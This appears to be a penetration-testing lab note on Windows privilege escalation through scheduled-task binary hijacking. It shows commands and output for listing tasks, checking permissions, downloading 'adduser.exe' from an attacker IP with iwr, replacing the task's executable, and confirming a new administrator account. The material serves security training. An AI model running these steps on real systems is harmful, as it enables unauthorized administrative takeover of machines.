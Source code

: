 # Scheduled Tasks

Windows uses **Task Scheduler** to run automated jobs, known as **Scheduled Tasks**, based on defined triggers (e.g., at startup, login, or a specific time). Each task has one or more actions—scripts or programs to execute—configured under its properties. For privilege escalation, the focus is on three key details:

1. **User context:** Does the task run as `SYSTEM` or an `administrator`?
2. **Triggers:** When does it run? Is the condition re-usable within the testing window?
3. **Actions:** What program or script runs?

{% tabs %}
{% tab title="1. List Tasks" %}
{% code overflow="wrap" %}
```powershell
# /fo LIST -> format as list, /v -> display all properties (verbose)
PS C:\Users\steve> schtasks /query /fo LIST /v

Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        4/7/2025 12:09:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        4/7/2025 12:08:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          daveadmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        0 Hour(s), 1 Minute(s)
Repeat: Until: Time:                  None
Repeat: Until: Duration:              Disabled
Repeat: Stop If Still Running:        Disabled

# alternative
> Get-ScheduledTask
```
{% endcode %}
{% endtab %}

{% tab title="2. Check Perms" %}
```powershell
# check persmissions
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
c:\users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```
{% endtab %}

{% tab title="3. Replace" %}
{% code overflow="wrap" %}
```powershell
# replace the binary
PS C:\Users\steve> iwr http://192.168.45.226/adduser.exe -outfile BackendCacheCleanup.exe
PS C:\Users\steve> move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.back
PS C:\Users\steve> move BackendCacheCleanup.exe .\Pictures\
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
{% code overflow="wrap" %}
```powershell
# the task is executed every minute
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2
<SNIP>

PS C:\Users\steve> net LocalGroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
<SNIP>
dave2
>SNIP>
```
{% endcode %}
{% endtab %}
{% endtabs %}
